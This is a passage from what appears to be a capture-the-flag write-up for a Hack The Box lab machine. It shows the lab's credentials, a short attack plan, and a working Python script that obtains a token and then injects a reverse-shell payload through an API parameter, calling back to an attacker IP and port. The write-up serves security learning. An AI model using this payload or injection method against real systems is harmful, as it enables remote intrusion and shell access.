 
- username: dinesh
- password: 4aUh0A8PbVJxgd

Given our attack surface, the plan is the following:

1. Use given credentials to create a valid jwt.
2. With this token access the functionality that is weak to code injection.  This is at endpoint `/api/brew` with post parameter abv. Token must be sent in header `'X-Craft-Api-Token'`
3. Inject python code in order to obtain a reverse shell
4. win :)

For this reason i developed the following script which should launch a shell in the computer:

```python
import requests
import json
import random

identity = ('dinesh', '4aUh0A8PbVJxgd')

token_response = requests.get('https://api.craft.htb/api/auth/login', auth=identity, verify = False)
token = json.loads(token_response.text)['token']

code = "exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.8',6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(['/bin/sh','-i'])\")"

data = {
  "id": random.randint(0,2 ** 32 - 1),
  "brewer": "string",
  "name": "string",
  "style": "string",
  "abv": code
}

answer = requests.post('https://api.craft.htb/api/brew/', data = json.dumps(data), headers={'X-Craft-Api-Token':token, "Content-Type": "application/json"}, verify= False)
print('Command ' + code + ' got answer ' + str(answer.status_code))
print(answer.text)
```

Now we are [[root???? ]]